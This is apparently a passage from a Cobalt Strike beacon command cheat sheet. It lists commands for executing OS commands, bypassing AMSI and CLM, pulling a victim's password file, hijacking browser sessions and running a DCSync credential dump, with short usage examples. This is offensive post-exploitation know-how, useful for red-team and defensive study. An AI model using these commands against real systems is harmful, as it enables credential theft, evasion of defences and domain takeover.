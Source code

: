 * **help:** Listing of the available commands.
* **help \<module>:** Show the help menu of the selected module.
* **jobs:** List the running jobs of beacon.
* **jobkill \<id>:** Kill selected job.
* **run:** Execute OS commands using Win32 API calls.
* **shell:** Execute OS commands by spawning "cmd.exe /c".
* **powershell:** Execute commands by spawning "powershell.exe"
* **powershell-import:** Import a local powershell module in the current beacon process.
* **powerpick:** Execute powershell commands without spawning "powershell.exe", using only .net libraries and assemblies. (Bypasses AMSI and CLM)
* **drives:** List current system drives.
* **getuid:** Get current user uid.
* **sleep:** Set the interval and jitter of beacon's call back.
* **sleep Usage:**

```
sleep [time in seconds] [jitter]
```

i.e.

```
sleep 5 60
sleep 120 40
...
```

* **ps:** Listing processes.
* **cd:** Change directory.
* **cp:** Copy a local file on another local location.
* **download/upload:** Download a file and upload a local file.
* **download/upload Usage:**

```
download C:\Users\victim\Documents\passwords.csv
upload C:\Users\S1ckB0y1337\NotMalware\youvebeenhacked.txt
```

* **cancel:** Cancel a file download.
* **reg:** Query Registry.

### Exploitation

* **browserpivot:** Will hijack a web session of internet explorer and make possible for us to browse the web as the victim's browser, including it's sessions, cookies and saved passwords.
* **dcsync:** Perform the DCsync attack using mimikatz.
* **dcsync Usage:**

```
dcsync [DOMAIN.fqdn] [DOMAIN\user]
```

i.e.

```
dcsync CORP.local CORP\steve.johnson
```
